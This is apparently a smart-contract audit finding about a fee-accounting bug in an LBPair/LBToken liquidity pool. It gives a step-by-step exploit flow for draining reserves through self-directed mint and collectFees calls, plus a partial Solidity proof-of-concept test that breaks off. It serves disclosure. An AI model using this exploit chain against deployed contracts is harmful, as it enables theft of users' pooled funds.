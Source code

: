 When liquidity is first minted to user, the _accruedDebts is updated to match current _balance * accToken*PerShare.

Without this step, a user could collect fees for the entire growth of accToken*PerShare from zero to current value.

This is done in _updateUserDebts(), called by _cacheFees() which is called by _beforeTokenTransfer(), the token transfer hook triggered on mint/burn/transfer.

The critical problem lies in _beforeTokenTransfer() condition block

if (_from != _to)
Note that if _fromor _to is the LBPair contract itself, _cacheFees() won’t be called on _from or _torespectively.

This was presumably done because it is not expected that the LBToken address will receive any fees. It is expected that the LBToken will only hold tokens when a user sends LP tokens to burn.

This is where the bug manifests — the LBToken address (and 0 address), will collect freshly minted LP token’s fees from 0 to the current accToken*PerShare value.

Proof of concept

We can exploit this bug to collect the entire reserve assets. The attack flow is:

Transfer amount X to pair
Call pair.mint() with the to address = pair address
call collectFees() with pair address as account -> pair will send to itself the fees! It is interesting that both OZ ERC20 implementation and LBToken implementation allow this, otherwise, this exploit chain would not work
Pair will now think user sent in money, because the bookkeeping is wrong. _pairInformation.feesX.total is decremented in collectFees() but the balance did not change.
Therefore, this calculation will credit the attacker with the fees collected into the pool:

uint256 _amountIn = _swapForY
    ? tokenX.received(_pair.reserveX, _pair.feesX.total)
    : tokenY.received(_pair.reserveY, _pair.feesY.total);
The attacker calls swap()and receives reserve assets using the fees collected.
Attacker calls burn(), passing their own address as _to parameter. This will successfully burn the minted tokens from step 1 and give Attacker their deposited assets.
And here’s the test to add in LBPair.Fees.t.sol for the PoC:

function testAttackerStealsReserve() public {
    uint256 amountY=  53333333333333331968;
    uint256 amountX = 100000;

    uint256 amountYInLiquidity = 100e18;
    uint256 totalFeesFromGetSwapX;
    uint256 totalFeesFromGetSwapY;

    addLiquidity(amountYInLiquidity, ID_ONE, 5, 0);
    uint256 id;
    (,,id ) = pair.getReservesAndId();
    console.log("id before" , id);

    //swap X -> Y and accrue X fees
    (uint256 amountXInForSwap, uint256 feesXFromGetSwap) = router.getSwapIn(pair, amountY, true);
    totalFeesFromGetSwapX += feesXFromGetSwap;
